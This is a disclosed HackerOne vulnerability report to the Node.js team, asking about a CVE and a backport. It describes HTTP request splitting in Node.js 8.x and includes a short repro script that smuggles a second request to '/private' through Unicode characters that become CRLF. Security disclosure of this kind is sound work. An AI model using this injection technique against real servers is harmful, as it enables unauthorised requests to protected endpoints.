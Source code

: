 # Http request splitting

## Report Details
- **Report ID**: 409943
- **URL**: https://hackerone.com/reports/409943
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-09-14T21:57:38.242Z
- **Disclosed**: 2020-01-15T00:17:07.305Z

## Reporter
- **Username**: arkadiyt
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
Hi,

I came upon the following tweet today:
[https://twitter.com/YShahinzadeh/status/1039396394195451904](https://twitter.com/YShahinzadeh/status/1039396394195451904)

which details a http request splitting vulnerability in NodeJS. You can confirm it with the following repro script:

  
```
const http = require('http')

const server = http.createServer((req, res) => {
  console.log(req.url);
  res.end();
});

server.listen(8000, function() {
  http.get('http://127.0.0.1:8000/?param=x\u{0120}HTTP/1.1\u{010D}\u{010A}Host:{\u0120}127.0.0.1:8000\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private', function() {
  });
});
```

The vulnerability seems to be fixed in v10.0.0 but still present in v8.12.0. I also couldn't find a CVE for it or any information in the NodeJS changelog about it, so I'm not sure if the NodeJS community is aware of the issue.

Should this bug get a CVE assigned / have the fix backported to Carbon?

Thanks,
Arkadiy

## Impact

Http request splitting

## Attachments
No attachments
